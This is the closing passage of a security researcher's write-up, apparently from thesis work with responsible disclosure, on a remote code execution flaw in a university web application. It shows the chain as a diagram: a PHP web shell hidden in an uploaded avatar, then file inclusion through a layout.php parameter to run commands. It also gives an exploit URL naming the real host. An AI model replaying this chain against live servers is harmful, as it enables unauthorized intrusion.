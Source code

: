 
```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant S as UPM Server


    A->>S: Upload avatar (104.jpg)<br/>Contains a PHP web shell
    activate S
    S->>S: Save to<br/>/var/www/html/draco/images/avatares/104.jpg
    deactivate S


    A->>S: GET /layout.php?view=<br/>/var/www/html/draco/images/avatares/104.jpg<br/>&cmd=whoami
    activate S
    S->>S: include(view) -> executed as PHP<br/>system(whoami)
    S-->>A: 200 OK<br/>...<br/>www-data<br/>...
    deactivate S
```

So the result after visiting `https://dlsiis.fi.upm.es/procesadores/layout.php?view=/var/www/html/draco/images/avatares/27104.jpg&cmd=whoami` would look like the following:

![RCE](../assets/img/upm-vulnerabilities/rce.png)

## Conclusion

This analysis represents just a glimpse of the diverse attack vectors uncovered during my thesis research, highlighting a critical reality: universities and public institutions must strengthen their security posture. The vulnerabilities discovered, many being straightforward attacks, demonstrate how educational institutions, despite handling sensitive data from thousands of students, often operate with inadequate security measures.

I hope these scenarios provide valuable insights into real-world web application security issues and inspire both security professionals and educational institutions to prioritize security in their digital infrastructure.

Thanks to the Universidad Politécnica de Madrid, and especially to my teacher, José Luis Fuertes Castro, for the opportunity and for supporting a responsible disclosure process.

If you have any questions about any of the attacks feel free to reach out.